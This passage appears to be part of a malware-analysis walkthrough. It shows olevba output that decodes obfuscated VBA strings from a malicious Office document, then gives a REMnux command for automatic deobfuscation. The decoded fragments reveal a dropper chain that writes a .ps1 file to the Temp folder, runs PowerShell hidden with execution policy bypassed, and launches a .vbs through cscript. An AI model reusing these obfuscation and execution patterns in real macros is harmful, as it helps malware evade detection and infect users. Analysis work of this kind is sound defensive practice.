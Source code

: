 ```
|          |'c:\Users\          |                                             |
|VBA string|'+'.'+'p'+'s1';     |Chr(39) + Chr(43) + Chr(39) + "." + Chr(39) +|
|          |                    |Chr(43) + Chr(39) + "p" + Chr(39) + Chr(43) +|
|          |                    |Chr(39) + "s1" + Chr(39) + ";"               |
|VBA string|cmd.exe /c          |"c" & Chr(109) & "d.e" & Chr(120) & "e /c    |
|          |'c:\Users\          |'c:\Users\"                                  |
|          |ect("""&S"          |& "re" & "at" & "eO" & "b" & "je" & "ct(" &  |
|          |                    |Chr(34) & Chr(34) & Chr(34) & "&" & "S" &    |
|          |                    |Chr(34)                                      |
|VBA string|&"cripting.FileSyste|("&") & Chr(34) & "cr" & "ipt" & "ing.F" &   |
|          |mObject")           |"ileS" & "ystem" & "Ob" & "ject" & Chr(34) & |
|          |                    |")"                                          |
|VBA string|currentFile =       |"cur" + "rent" + Chr(Asc("F")) + "ile = " &  |
|          |"C:\Users\          |Chr(34) & "C:\" & Chr(Asc("U")) & "sers\"    |
|VBA string|\AppData\Local\Temp\|"\AppData\Local\Temp" + "\"                  |
|VBA string|"&"."&"p"&"s1"      |Chr(34) + "&" + Chr(34) + "." + Chr(34) + "&"|
|          |                    |+ Chr(34) + "p" + Chr(34) + "&" + Chr(34) +  |
|          |                    |"s1" + Chr(34)                               |
|VBA string|Set objShell =      |"" & Chr(83) & "et " & Chr(111) & "bj" &     |
|          |                    |Chr(83) & "he" + Chr(Asc("l")) +             |
|          |                    |Chr(Asc("l")) + " = "                        |
|VBA string|reateObject("Wscript|"reate" & Chr(79) & Chr(98) & "ject(" &      |
|          |.shell")            |Chr(34) & "W" & Chr(115) & "cript." &        |
|          |                    |Chr(115) & "hell" & Chr(34) & ")" + ""       |
|VBA string|objShell.Run        |"" & Chr(111) & "bj" & Chr(83) & "hell" &    |
|          |"powerS"+"hell.exe  |Chr(46) & Chr(82) & "un " & Chr(34) & "p" &  |
|          |-noexit             |Chr(111) & "wer" & Chr(83) + Chr(34) + "+" + |
|          |-ExecutionPolicy    |Chr(34) & "hell.e" & Chr(120) & "e -n" &     |
|          |bypass -noprofile   |Chr(111) & "exit -Exe" & "cutionP" & Chr(111)|
|          |-file " &           |& "licy" & " byp" & "ass -n" & Chr(111) &    |
|          |currentFile,0,true  |"pr" & Chr(111) & "file -file " & Chr(34) & "|
|          |                    |& currentFile,0,true"                        |
|VBA string|ping 1.1.2.2 -n 2   |"ping 1.1.2.2 -n" & " 2"                     |
|VBA string|set Var1="."        |"set Var1=" + Chr(34) + "." + Chr(34)        |
|VBA string|set Var2="v"        |"set Var2=" + Chr(34) + "v" + Chr(34)        |
|VBA string|set Var3="bs"       |"set Var3=" + Chr(34) + "bs" + Chr(34)       |
|VBA string|set Var4="c:\Users\ |"set Var4=" + Chr(34) & "c:\Users\"          |
|VBA string|cscript.exe %Var4%%V|"c" & "sc" & "ri" & "pt" & Chr(46) + Chr(101)|
|          |ar1%%Var2%%Var3%    |& Chr(120) & "e " & "%Var4%" +               |
|          |                    |"%Var1%%Var2%%Var3%"                         |
+----------+--------------------+---------------------------------------------+
```

### Auto decode the obfuscated VBA
```
remnux@siftworkstation: ~/Work
$ olevba3 --deobf --reveal baddoc.doc 
```

## mraptor
